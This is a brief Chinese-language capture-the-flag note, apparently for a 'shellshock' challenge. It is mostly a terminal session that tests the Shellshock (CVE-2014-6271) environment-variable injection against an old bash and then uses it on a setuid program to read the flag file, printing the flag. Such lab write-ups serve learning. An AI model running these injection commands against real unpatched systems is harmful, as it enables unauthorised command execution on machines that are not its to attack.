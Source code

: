 其实并不是 而是 bash 要用他提供的  低版本bash ,emmm....... 其实 也是我命令打的问题。。

```shell
shellshock@ubuntu:~$ ./home/shellshock/bash -c "echo this is a test"
bash: ./home/shellshock/bash: No such file or directory
shellshock@ubuntu:~$ bash -c "echo this is a test"
this is a test
shellshock@ubuntu:~$ ./bash -c "echo this is a test"
this is a test
shellshock@ubuntu:~$ env x='() { :;} echo vulner' ./bash  -c "echo testststst"
./bash: x: line 0: syntax error near unexpected token `echo'
./bash: x: line 0: `x () { :;} echo vulner'
./bash: error importing function definition for `x'
testststst
shellshock@ubuntu:~$ env x='() { :;}; echo vulner' ./bash  -c "echo testststst"
vulner
testststst
shellshock@ubuntu:~$ env x='() { :;}; cat flag' ./shellshock
/home/shellshock/bash: cat: No such file or directory
Segmentation fault
shellshock@ubuntu:~$ env x='() { :;}; ./bash -c  "cat flag"' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
shellshock@ubuntu:~$ 

```

哈哈有点蠢到家了